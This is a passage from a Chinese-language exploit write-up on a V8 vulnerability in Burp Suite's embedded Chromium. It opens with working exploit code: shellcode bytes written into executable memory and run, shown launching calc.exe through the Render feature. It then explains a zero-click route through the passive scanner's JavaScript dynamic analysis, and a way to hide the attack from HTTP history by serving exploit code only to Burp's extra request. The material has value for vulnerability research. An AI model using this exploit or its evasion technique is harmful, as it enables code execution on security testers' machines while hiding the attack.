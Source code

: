 ```
            0x68, 0x57, 0x69, 0x6e, 0x45, 0x89, 0x65, 0x18, 0xe8, 0xb8, 0xff, 0xff, 0xff, 0x31, 0xc9, 0x51,
            0x68, 0x2e, 0x65, 0x78, 0x65, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x89, 0xe3, 0x41, 0x51, 0x53, 0xff,
            0xd0, 0x31, 0xc9, 0xb9, 0x01, 0x65, 0x73, 0x73, 0xc1, 0xe9, 0x08, 0x51, 0x68, 0x50, 0x72, 0x6f,
            0x63, 0x68, 0x45, 0x78, 0x69, 0x74, 0x89, 0x65, 0x18, 0xe8, 0x87, 0xff, 0xff, 0xff, 0x31, 0xd2,
            0x52, 0xff, 0xd0, 0x90, 0x90, 0xfd, 0xff]
    );

    log("[+] writing shellcode ... ");
    for (let i = 0; i &lt; shellcode.length; i++)
        write(RWX_Mem_Addr + i, shellcode[i]);

    log("[+] execute shellcode !");
    opt_me();
`}`
pwn();
&lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
```

用户在通过Render功能渲染页面时触发v8漏洞成功执行shellcode。

[![](https://p0.ssl.qhimg.com/t01cb6514c94e277cd2.jpg)](https://p0.ssl.qhimg.com/t01cb6514c94e277cd2.jpg)



## 四、进阶攻击

Render功能需要用户交互才能触发漏洞，相对来说比较鸡肋，能不能0click触发漏洞？答案是可以的。

Burp Suite v2.0的`Live audit from Proxy`被动扫描功能在默认情况下开启JavaScript分析引擎（JavaScript analysis），用于扫描JavaScript漏洞。

[![](https://p4.ssl.qhimg.com/t01546b26685e10b63b.jpg)](https://p4.ssl.qhimg.com/t01546b26685e10b63b.jpg)

其中JavaScript分析配置中，默认开启了动态分析功能（[dynamic analysis techniques](https://portswigger.net/blog/dynamic-analysis-of-javascript)）、额外请求功能（Make requests for missing Javascript dependencies）

[![](https://p5.ssl.qhimg.com/t012feccf054401740d.jpg)](https://p5.ssl.qhimg.com/t012feccf054401740d.jpg)

JavaScript动态分析功能会调用内置chromium浏览器对页面中的JavaScript进行DOM XSS扫描，同样会触发页面中的HTML渲染、JavaScript执行，从而触发v8漏洞执行shellcode。

额外请求功能当页面存在script标签引用外部JS时，除了页面正常渲染时请求加载script标签，还会额外发起请求加载外部JS。即两次请求加载外部JS文件，并且分别执行两次JavaScript动态分析。

额外发起的HTTP请求会存在明文特征，后端可以根据该特征在正常加载时返回正常JavaScript代码，额外加载时返回漏洞利用代码，从而可以实现在Burp Suite HTTP history中隐藏攻击行为。
